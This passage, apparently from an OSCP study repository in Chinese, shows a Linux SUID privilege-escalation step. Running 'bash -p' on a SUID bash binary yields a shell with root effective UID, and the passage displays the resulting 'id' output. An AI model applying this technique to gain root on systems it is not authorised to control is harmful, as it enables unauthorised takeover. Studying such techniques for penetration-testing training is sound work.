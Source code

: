 以下命令将以root身份打开一个bash shell：
```
bash -p
bash-3.2# id
uid=1002(nong) gid=1002(nong) euid=0(root) egid=0(root) 组=0(root),1002(nong)
```
![bash](https://github.com/Nongcloud/oscp-Learn/tree/main/Privilege-Escalation/SUID/images/suid-bash.png)
